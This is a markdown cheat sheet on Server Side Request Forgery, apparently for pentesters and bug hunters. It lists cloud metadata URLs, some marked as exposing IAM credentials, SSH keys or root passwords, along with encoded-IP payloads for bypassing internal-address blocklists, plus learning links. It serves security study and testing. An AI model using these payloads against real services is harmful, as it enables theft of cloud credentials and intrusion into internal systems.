 # Server Side Request Forgery (SSRF)

**Unordered top 5 features that are often prone to SSRF vulnerabilities**

* Webhooks
* PDF generators
* Document parsers
* Link expansion
* File uploads

### Cloud Metadata

#### AWS 
```
# Amazon Web Services (No Header Required)
# from http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html#instancedata-data-categories
http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy
http://169.254.169.254/latest/user-data
http://169.254.169.254/latest/user-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/reservation-id
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key
```

#### Google Cloud (Header Sometimes Required)
```
#  https://cloud.google.com/compute/docs/metadata
#  - Requires the header "Metadata-Flavor: Google" or "X-Google-Metadata-Request: True" on API v1
#  - Most endpoints can be accessed via the v1beta API without a header
http://169.254.169.254/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/
http://metadata/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/instance/hostname
http://metadata.google.internal/computeMetadata/v1/instance/id
http://metadata.google.internal/computeMetadata/v1/project/project-id
# kube-env; thanks to JackMc for the heads up on this (https://hackerone.com/reports/341876)
http://metadata.google.internal/computeMetadata/v1/instance/attributes/kube-env
# Google allows recursive pulls 
http://metadata.google.internal/computeMetadata/v1/instance/disks/?recursive=true
# returns root password for Google
http://metadata.google.internal/computeMetadata/v1beta1/instance/attributes/?recursive=true&alt=json
```

#### Digital Ocean (No Header Required)
```
# https://developers.digitalocean.com/documentation/metadata/
http://169.254.169.254/metadata/v1.json
http://169.254.169.254/metadata/v1/ 
http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1/user-data
http://169.254.169.254/metadata/v1/hostname
http://169.254.169.254/metadata/v1/region
http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address
```

#### Packetcloud
```
https://metadata.packet.net/userdata
```

#### Azure (Header Required)
```
# Header: "Metadata: true"
# https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service
# (Old: ) https://azure.microsoft.com/en-us/blog/what-just-happened-to-my-vm-in-vm-metadata-service/
http://169.254.169.254/metadata/instance?api-version=2017-04-02
http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-04-02&format=text
```

#### Oracle Cloud (No Header Required)
```
# https://docs.us-phoenix-1.oraclecloud.com/Content/Compute/Tasks/gettingmetadata.htm
http://169.254.169.254/opc/v1/instance/
```

#### Alibaba
```
# https://www.alibabacloud.com/help/faq-detail/49122.htm
http://100.100.100.200/latest/meta-data/
http://100.100.100.200/latest/meta-data/instance-id
http://100.100.100.200/latest/meta-data/image-id
```

#### OpenStack/RackSpace 
```
# https://docs.openstack.org/nova/latest/user/metadata-service.html
http://169.254.169.254/openstack	 
```
#### Oracle Cloud
```
# https://docs.oracle.com/en/cloud/iaas/compute-iaas-cloud/stcsg/retrieving-instance-metadata.html
http://192.0.0.192/latest/
http://192.0.0.192/latest/user-data/
http://192.0.0.192/latest/meta-data/
http://192.0.0.192/latest/attributes/
```

#### Kubernetes

```
# Debug Services (https://kubernetes.io/docs/tasks/debug-application-cluster/debug-service/)
https://kubernetes.default.svc.cluster.local
https://kubernetes.default
# https://twitter.com/Random_Robbie/status/1072242182306832384
https://kubernetes.default.svc/metrics
```

## Bypassing filters

### Blacklisted IPs

If the service has blacklisted internal IP addresses this might be possible to bypass in numerous ways.

[This script](https://github.com/cujanovic/SSRF-Testing/blob/master/ip.py) will output possible bypass vectors like the ones below.

```
http://169。254。169。254/
http://169｡254｡169｡254/
http://⑯⑨。②⑤④。⑯⑨｡②⑤④/
http://②⑧⑤②⓪③⑨①⑥⑥:80/
http://④②⑤｡⑤①⓪｡④②⑤｡⑤①⓪:80/
http://[::①⑥⑨｡②⑤④｡⑯⑨｡②⑤④]:80/
http://[::ⓕⓕⓕⓕ:①⑥⑨。②⑤④。⑯⑨。②⑤④]:80/
```

#### Decimal

[IPv4 to decimal converter](https://www.browserling.com/tools/ip-to-dec)

```
target.com/?url=http://2130706433 (127.0.0.1)
```

#### Hexadecimal

[IPv4 to hexadecimal converter](https://www.browserling.com/tools/ip-to-hex)

```
target.com/?url=http://0x7f.0x00.0x00.0x01 (127.0.0.1)
target.com/?url=http://0x7f000001          (127.0.0.1)
```

#### Octal

> Not positive that this works well or at all. Still testing

[IPv4 to octal converter](https://www.browserling.com/tools/ip-to-oct)

```
target.com/?url=http://0177.0000.0000.0001 (127.0.0.1)
target.com/?url=http://017700000001        (127.0.0.1)
```

## Resources

* **Reading**
  * **Articles**
    * [Server-Side Request Forgery (SSRF) Attacks - Part 1: The basics](https://medium.com/poka-techblog/server-side-request-forgery-ssrf-attacks-part-1-the-basics-a42ba5cc244a)
    * [Server-Side Request Forgery (SSRF) Attacks  - Part 2: Fun with IPv4 addresses](https://medium.com/poka-techblog/server-side-request-forgery-ssrf-attacks-part-2-fun-with-ipv4-addresses-eb51971e476d)
    * [Server-Side Request Forgery (SSRF)  Attacks - Part 3: Other advanced techniques](https://medium.com/poka-techblog/server-side-request-forgery-ssrf-part-3-other-advanced-techniques-3f48cbcad27e)
    * [What is server side request forgery (SSRF)?](https://blog.detectify.com/2019/01/10/what-is-server-side-request-forgery-ssrf/)
    * [How To: Server-Side Request Forger (SSRF)](https://www.hackerone.com/blog-How-To-Server-Side-Request-Forgery-SSRF)
  * **Writeups**
    * [SSRF in proxy.duckduckgo.com via the image_host parameter](https://hackerone.com/reports/358119)
    
* **Hands On**
  * [SSRF Lab](https://github.com/m6a-UdS/ssrf-lab)

* **Tools & Services**
  * [IPv4 to decimal converter](https://www.browserling.com/tools/ip-to-dec) (Online Service)
  * [IPv4 to octal converter](https://www.browserling.com/tools/ip-to-oct)
  * [IPv4 to hexadecimal converter](https://www.browserling.com/tools/ip-to-hex)
  * [SSRF testing resources](https://github.com/cujanovic/SSRF-Testing) (Github Repo)
